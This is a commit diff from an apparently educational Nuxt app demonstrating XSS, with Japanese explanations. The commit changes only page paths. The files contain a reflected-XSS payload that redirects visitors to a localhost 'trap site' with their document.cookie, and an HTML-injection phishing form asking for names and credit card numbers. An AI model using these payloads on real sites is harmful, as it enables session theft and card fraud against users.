

Before and after one commit to watanata/nuxt2-tar, a Nuxt app: page /xss in a window 1280 px wide. Shown: the top 234 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
modify links

```diff
--- a/pages/input_xss.vue
+++ b/pages/input_xss.vue
@@ -1,7 +1,7 @@
 <template>
   <div>
     <p>〇〇市の粗大ごみ受付がクレジットカードでできるようになっていた。これは便利です
-    <form action="http://localhost:3000/input" method="POST">
+    <form action="http://localhost:3000/xss/input" method="POST">
       <!-- <input name="name" type="hidden" value='"></form><form style=top:5px; left=5px;position:absolute;z-index:99;background-color:white action=http://localhost:3333/hoge method=POST>粗大ごみの受付がクレジットカード対応しました。</br>氏名 <input size="20" name="name"></br>カード番号 <input size="20" name="card"><input value="申し込み" type="submit"></form>'></input> -->
       <input name="name" type="hidden" value='</input></form><form action="http://localhost:3333/hoge" method="POST">this is form <input name=hogehoge value=mogemoge></form>'></input>
       <input style="cursor:pointer;text-decoration:underline;color:blue;border:node;background:transparent;font-size:100%;" type="submit" value="〇〇市粗大ごみ申し込みセンター">
--- a/pages/xss.vue
+++ b/pages/xss.vue
@@ -7,17 +7,17 @@
 
     </br>
     <div>
-      <p>XSS脆弱性のある下記のページ(localhost:3000/show)にパラメータとして</br>
+      <p>XSS脆弱性のある下記のページ(localhost:3000/xss/show)にパラメータとして</br>
       <strong>?name=&lt;script&gt;window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;&lt;/script&gt;</strong></br>
       をリクエストしている。そのためこのページにアクセスした人はhttp://localhost:3333/hoge?sid=に強制的にリダイレクトさせられ、クッキーの値をクエリとしてリクエストさせられる。</br>
       localhost:3333/hogeも罠サイトでありパラメータの値を攻撃者にメール送信するなどすればアクセスした人のクッキーの値を盗むことができる</p>
-      <iframe width=320 height=100 src="http://localhost:3000/show?name=<script>window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;</script>"></iframe>
+      <iframe width=320 height=100 src="http://localhost:3000/xss/show?name=<script>window.location='http://localhost:3333/hoge?sid='%2Bdocument.cookie;</script>"></iframe>
     </div>
 
     </br>
     <div>
       <p>単純に?name=watanataでアクセスすると下記のようになる</p>
-      <iframe width=320 height=100 src="http://localhost:3000/show?name=watanata"></iframe>
+      <iframe width=320 height=100 src="http://localhost:3000/xss/show?name=watanata"></iframe>
     </div>
   </div>
 
```
